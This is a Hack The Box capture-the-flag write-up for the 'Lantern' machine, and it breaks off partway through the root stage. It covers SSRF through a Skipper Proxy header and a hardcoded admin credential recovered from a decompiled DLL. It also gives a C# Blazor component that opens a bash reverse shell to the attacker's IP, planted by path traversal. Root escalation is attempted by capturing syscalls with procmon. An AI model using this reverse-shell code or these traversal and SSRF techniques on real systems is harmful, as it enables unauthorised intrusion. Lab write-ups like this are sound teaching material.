# Lantern Heist - HTB Writeup

This box is my first hard, therefore, there might be things to change for improving clarity, grammar, and technical accuracy

## PART 1: USER

### Getting access to the admin panel

Let’s begin with an nmap scan:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80c947d589f85083025efe5330ac2d0e (ECDSA)
|_  256 d422cffeb100cbeb6ddcb2b4646b9d89 (ED25519)
80/tcp   open  http    Skipper Proxy
|_http-title: Lantern
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Content-Length: 207
|     Content-Type: text/html; charset=utf-8
|     Date: Fri, 23 Aug 2024 12:08:59 GMT
|     Server: Skipper Proxy
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Length: 225
|     Content-Type: text/html; charset=utf-8
|     Date: Fri, 23 Aug 2024 12:08:53 GMT
|     Location: http://lantern.htb/
|     Server: Skipper Proxy
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://lantern.htb/">http://lantern.htb/</a>. If not, click the link.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|     Content-Type: text/html; charset=utf-8
|     Date: Fri, 23 Aug 2024 12:08:53 GMT
|_    Server: Skipper Proxy
|_http-server-header: Skipper Proxy
| http-methods:
|_  Supported Methods: HEAD GET OPTIONS
3000/tcp open  ppp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 500 Internal Server Error
|     Connection: close
|     Content-Type: text/plain; charset=utf-8
|     Date: Fri, 23 Aug 2024 12:08:58 GMT
|     Server: Kestrel
|     System.UriFormatException: Invalid URI: The hostname could not be parsed.
|     System.Uri.CreateThis(String uri, Boolean dontEscape, UriKind uriKind, UriCreationOptions& creationOptions)
|     System.Uri..ctor(String uriString, UriKind uriKind)
|     Microsoft.AspNetCore.Components.NavigationManager.set_BaseUri(String value)
|     Microsoft.AspNetCore.Components.NavigationManager.Initialize(String baseUri, String uri)
|     Microsoft.AspNetCore.Components.Server.Circuits.RemoteNavigationManager.Initialize(String baseUri, String uri)
|     Microsoft.AspNetCore.Mvc.ViewFeatures.StaticComponentRenderer.<InitializeStandardComponentServicesAsync>g__InitializeCore|5_0(HttpContext httpContext)
|     Microsoft.AspNetCore.Mvc.ViewFeatures.StaticC
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 12:09:03 GMT
|     Server: Kestrel
|   Help:
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 12:08:58 GMT
|     Server: Kestrel
|   RTSPRequest:
|     HTTP/1.1 505 HTTP Version Not Supported
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 12:09:03 GMT
|     Server: Kestrel
|   SSLSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 12:09:19 GMT
|_    Server: Kestrel
```

3 ports, 22 ssh, 80 http and 3000 http too ?

The 3000 can't be an error, there is a reason for this. Let's try to find something.

There's a login page :



But except this, nothing really interesting. Going back to 80.

There's a file upload but this is also a dead end. I was a bit stuck until I realize : `Server: Skipper Proxy`. Hmmm, let's have a look on the internet. Upon further research, I discovered an interesting [exploit](https://www.exploit-db.com/exploits/51111). So let's try SSRF. I used burp, and this [port list](https://raw.githubusercontent.com/cujanovic/SSRF-Testing/master/commonly-open-ports.txt), but this was a very bad idea, way too long. You should definitely use another tool. Or use burp pro. And after, a few time, answer on `:5000` :



And when looking the whole response :


The site seems to use the Blazor Framework. This confirms what we found on port 3000. Let's fuzz this :

```bash
ffuf -c -w /opt/seclists/Discovery/Web-Content/common.txt -u "http://$TARGET/FUZZ" -H "X-Skipper-Proxy:http://127.0.0.1:5000/"  -recursion  -fc 302 -fw 389

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.29/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/common.txt
 :: Header           : X-Skipper-Proxy: http://127.0.0.1:5000/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 389
 :: Filter           : Response status: 302
________________________________________________

_framework/blazor.boot.json [Status: 200, Size: 20709, Words: 1549, Lines: 231, Duration: 103ms]
_framework/blazor.webassembly.js [Status: 200, Size: 60904, Words: 1770, Lines: 1, Duration: 91ms]
:: Progress: [4727/4727] :: Job [1/1] :: 443 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Great, let's have a look at this json file.

```bash
curl -H 'Host: lantern.htb' -H 'X-Skipper-Proxy: http://127.0.0.1:5000/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -X GET 'http://lantern.htb/_framework/blazor.boot.json'

{
  "cacheBootResources": true,
  "config": [ ],
  "debugBuild": true,
  "entryAssembly": "InternaLantern",
  "icuDataMode": 0,
  "linkerEnabled": false,
  "resources": {
    "assembly": {
      "Microsoft.AspNetCore.Authorization.dll": "sha256-hGbT4jDhpi63093bjGt+4XVJ3Z9t1FVbmgNmYYmpiNY=",
        [...] # remove all the usless lines
      "System.Private.CoreLib.dll": "sha256-6rKu8tPdUGsvbSpesoNMVzbx7bNqPRMPV34eI7vSYaQ=",
      "InternaLantern.dll": "sha256-pblWkC\/PhCCSxn1VOi3fajA0xS3mX\/\/RC0XvAE\/n5cI="
    },
    "extensions": null,
    "lazyAssembly": null,
    "libraryInitializers": null,
    "pdb": {
      "InternaLantern.pdb": "sha256-E8WICkNg65vorw8OEDOe6K9nJxL0QSt1S4SZoX5rTOY="
    },
    "runtime": {
      "dotnet.timezones.blat": "sha256-KsGUR9nqtXb3Hy6IrNlnc1HoSS+AFlsXTX9rq4oChtA=",
      "icudt.dat": "sha256-Zuq0dWAsBm6\/2lSOsz7+H9PvFaRn61KIXHMMwXDfvyE=",
      "icudt_CJK.dat": "sha256-WPyI4hWDPnOw62Nr27FkzGjdbucZnQD+Ph+GOPhAedw=",
      "icudt_EFIGS.dat": "sha256-4RwaPx87Z4dvn77ie\/ro3\/QzyS+\/gGmO3Y\/0CSAXw4k=",
      "icudt_no_CJK.dat": "sha256-OxylFgLJlFqixsj+nLxYVsv5iZLvfIKMpLf9hrWaChA=",
      "dotnet.wasm": "sha256-JlqjjT2GZWeJko9+pitVfjjmJeEbi4AibzTQr5zTISo=",
      "dotnet..lzvsyl6wav.js": "sha256-6AcYHsbEEdBjeNDUUvrQZuRqASd62mZgQgxz4uzTVGU="
    },
    "satelliteResources": null
  }
}#
```

`InternaLantern.dll`. Let's download this and have a look using `ILSpyCmd`.

```bash
#!/bin/bash
set -x
URL="http://lantern.htb/_framework/InternaLantern.dll"
HOST="lantern.htb"
PROXY="http://127.0.0.1:5000/"
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"

curl -o InternaLantern.dll -H "Host: $HOST" -H "X-Skipper-Proxy: $PROXY" -H "User-Agent: $USER_AGENT" -X GET \ $URL
```

```bash
ilspycmd InternaLantern.dll -o data
```

And we get a 854 lines decompiled Csharp, let's read all of this. And, after a few time, I found some base64 strings.



And reading them :

```bash
echo 'U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE=' | base64 -d
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!#
```

Great ! Let's go back to port 3000 and try this creds.



And let's go ! We are inside !

### Upload reverse shell

Now that I have access to the admin panel, I will try to gain access to the system. I imediatly found two intersting path.

1. I can trigger some dll in `/opt/components`.
2. I can upload files to `/var/www/sites/lantern.htb/static/images`.

Let's try to create a revshell with .NET framework and then upload it.

I wasn't familiar with C# at the beginning so it's time to learn but don't expect very precise explanations.

First, let's find a revshell. I can use for example this [revshell](www.revshells.com).

After several unsuccessfull tests, it forgot about a very important part : The Blazor Framework. This application is using the Blazor framework, therefore, our malicious dll will need to use this framework also.

After a lots of tests on dll uploading (and just a little bit of LLM), I finally came to an end and this one is working !

Let's review the method.

First create a dotnet project : `dotnet new classlib -n uilop`.

Add this code in the `Class1.cs`.

```C#
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.Diagnostics;
using System.Threading.Tasks;

namespace uilop
{
    public class Component : ComponentBase
    {
        private string _shellOutput;

        protected override async Task OnInitializedAsync()
        {
            // Execute the reverse shell command asynchronously
            _shellOutput = await ExecuteReverseShellAsync();
        }

        private Task<string> ExecuteReverseShellAsync()
        {
            return Task.Run(() =>
            {
                try
                {
                    Process proc = new Process
                    {
                        StartInfo = new ProcessStartInfo
                        {
                            FileName = "/bin/bash",  // Use "cmd.exe" or "powershell.exe" on Windows
                            Arguments = "-c \"bash -i >& /dev/tcp/10.10.16.15/1234 0>&1\"",
                            UseShellExecute = false,
                            RedirectStandardOutput = true,
                            RedirectStandardError = true,
                            CreateNoWindow = true
                        }
                    };

                    proc.Start();

                    // Capture the output
                    string output = proc.StandardOutput.ReadToEnd();
                    proc.WaitForExit();

                    return output;
                }
                catch (Exception ex)
                {
                    return $"Error: {ex.Message}";
                }
            });
        }

        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);

            // Display the output from the reverse shell
            if (!string.IsNullOrEmpty(_shellOutput))
            {
                builder.AddContent(0, _shellOutput);
            }
            else
            {
                builder.AddContent(0, "Executing reverse shell...");
            }
        }
    }
}
```

Now let's compile it : `dotnet build`

Then I upload it and intercept the request with burpsuite. Some non ascii chars. Indeed it's blazor specific. Hopfully there is a burpsuite [extension] to read blazor !



Now let's try to path transversal and upload our dll to `/opt/components`. The path from `/var/www/sites/lantern.htb/static/images` should be `../../../../../../opt/components/uilop.dll`. I can edit the path and serialze the data. Then copying back to the inital request and send it !



It have been uploaded :



Now let's try to trigger it trought the search bar :



And boom ! Call back !



I can validate the user flag.

## PART 2: ROOT

I don't have the user password yet. However, there is a `.ssh` folder. And in it I find an ssh key that I can use.

Now the serious part. When connecting in ssh, I get a message :

Checking perms :

```bash
sudo -l
Matching Defaults entries for tomas on lantern:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tomas may run the following commands on lantern:
    (ALL : ALL) NOPASSWD: /usr/bin/procmon
```

What about the mail :

```bash
cat /var/mail/tomas
From hr@lantern.htb Mon Jan 1 12:00:00 2023
Subject: Welcome to Lantern!

Hi Tomas,

Congratulations on joining the Lantern team as a Linux Engineer! We're thrilled to have you on board.

While we're setting up your new account, feel free to use the access and toolset of our previous team member. Soon, you'll have all the access you need.

Our admin is currently automating processes on the server. Before global testing, could you check out his work in /root/automation.sh? Your insights will be valuable.

Exciting times ahead!

Best.
```

Of course :

```bash
ls -la /root/automation.sh
ls: cannot access '/root/automation.sh': Permission denied
```

Running some test, I found that the script `/root/automation.sh` is running and his PID change every 5 minutes or so.

Let's use procmon and see what we can get out of this `sudo /usr/bin/procmon <PID> -c procmon.db`. And after a few minutes and about 7000 syscalls, let's investigate.

We can open the database using : `sudo /usr/bin/procmon-f procmon.db`. There is a log of thing, but the one that seems the most important is the `nano` process with the `write` syscall.



Let's try to examine what's being written. To do so, the easiest will be to export the base to our local machine and use `sqlite3` as there is none on the remote machine. Using scp : `scp -i id_rsa -p tomas@lantern.htb:/home/tomas/procmon.db ./`

Now we can investigate : `sqlite3 procmon.db` Let's first check the different tables we have.

```bash
sqlite> .tables
ebpf      metadata  stats

sqlite> .schema stats
CREATE TABLE stats (
    syscall TEXT,
    count INTEGER,
    duration INTEGER);

sqlite> .schema metadata
CREATE TABLE metadata (
    startTime INT,
    startEpocTime TEXT);

sqlite> .schema ebpf
CREATE TABLE ebpf (
    pid INT,
    stacktrace TEXT,
    comm TEXT,
    processname TEXT,
    resultcode INTEGER,
    timestamp INTEGER,
    syscall TEXT,
    duration INTEGER,
    arguments BLOB);
```

So we will be mostly interested with the eBPF table. Let's take a closer look :

```bash
sqlite> SELECT * FROM ebpf LIMIT 15;
623|140484308424580$/usr/lib/x86_64-linux-gnu/libc.so.6!recvfrom|auditd|auditd|-11|18852227934508|recvfrom|2264|
626|140484307809079$/usr/lib/x86_64-linux-gnu/libc.so.6![UNKNOWN];261993006390$[UNKNOWN]|auditd|auditd|0|18852227965666|futex|1974|
626|140484308347071$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|auditd|auditd|62|18852227975845|write|10750|
626|140484308347071$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|auditd|auditd|447|18852227995322|write|3897|
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18853002532219|write|16521|
425106|140343397575575$/usr/lib/x86_64-linux-gnu/libc.so.6!poll;433540$[UNKNOWN]|nano|nano|0|18853002566093|poll|6141| V�^�
425106|140343396697587$/usr/lib/x86_64-linux-gnu/libc.so.6!__libc_sigaction;146028888065$[UNKNOWN]|nano|nano|0|18853002612339|rt_sigaction|5020|
425106|140343397575575$/usr/lib/x86_64-linux-gnu/libc.so.6!poll;146028888065$[UNKNOWN]|nano|nano|0|18853002622709|poll|3677|0W�^�
425106|140343397575575$/usr/lib/x86_64-linux-gnu/libc.so.6!poll|nano|nano|0|18853002634391|poll|3306|0W�^�
425106|140343396697587$/usr/lib/x86_64-linux-gnu/libc.so.6!__libc_sigaction|nano|nano|0|18853002643658|rt_sigaction|2785|
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18853002651994|write|6492|
425106|140343396697587$/usr/lib/x86_64-linux-gnu/libc.so.6!__libc_sigaction;140343398635392$[UNKNOWN]|nano|nano|0|18853002665128|rt_sigaction|2715|
425106|140343397575575$/usr/lib/x86_64-linux-gnu/libc.so.6!poll;140343398635392$[UNKNOWN]|nano|nano|0|18853002673324|poll|3156|�U�^�
425106|140343397575575$/usr/lib/x86_64-linux-gnu/libc.so.6!poll|nano|nano|0|18853002684535|poll|3136|�U�^�
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|1|18853002707648|write|6612|
```

It looks a bit messy. But let's select the info we need :

```bash
sqlite> SELECT * FROM ebpf  WHERE syscall LIKE 'write' AND processname LIKE 'nano' LIMIT 5;
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18853002532219|write|16521|
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18853002651994|write|6492|
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|1|18853002707648|write|6612|
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|2|18853002722917|write|6622|
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18854003052688|write|19467|
```

Why is there nothing in the argument ? Might be because it's hex and can't be rendered directly as utf-8. Let's try using this :

```bash
sqlite> SELECT *, hex(arguments) FROM ebpf  WHERE syscall LIKE 'write' AND processname LIKE 'nano' LIMIT 5;
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18853002532219|write|16521||01000000000000001B5B3F32356C1B28426563686F3443284220526500060000000000000008000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18853002651994|write|6492||01000000000000001B5B3F3235681B28426563686F3443284220526500060000000000000008000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|1|18853002707648|write|6612||0100000000000000085B3F3235681B28426563686F34432842205265000100000000000000E079713EA47F00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|2|18853002722917|write|6622||010000000000000020513F3235681B28426563686F3443284220526500020000000000000040BA6C71D45500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
425106|140343397558407$/usr/lib/x86_64-linux-gnu/libc.so.6!__write|nano|nano|6|18854003052688|write|19467||01000000000000001B5B3F32356C1B28426563686F3443284220526500060000000000000008000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

Indeed. Now let's dig further. And just to be sure, we can also sort by timestamp, to be sure to keep only what we need. The SQL request should look like this : `SELECT hex(arguments) FROM ebpf WHERE syscall LIKE 'write' AND processname LIKE 'nano' ORDER BY timestamp ;`

Let's get all of that data in a file : `sqlite3 procmon.db "SELECT hex(arguments) FROM ebpf WHERE syscall LIKE 'write' AND processname LIKE 'nano' ORDER BY timestamp ;" > procmon.txt`

And now, let's put this hexa to something kind of readable. `cat procmon.txt  | xxd -r -p > procmon-dec.txt`.



Okay. It does not make any sens. But. After looking at it again, again and again. And again. I found the follwing letters.

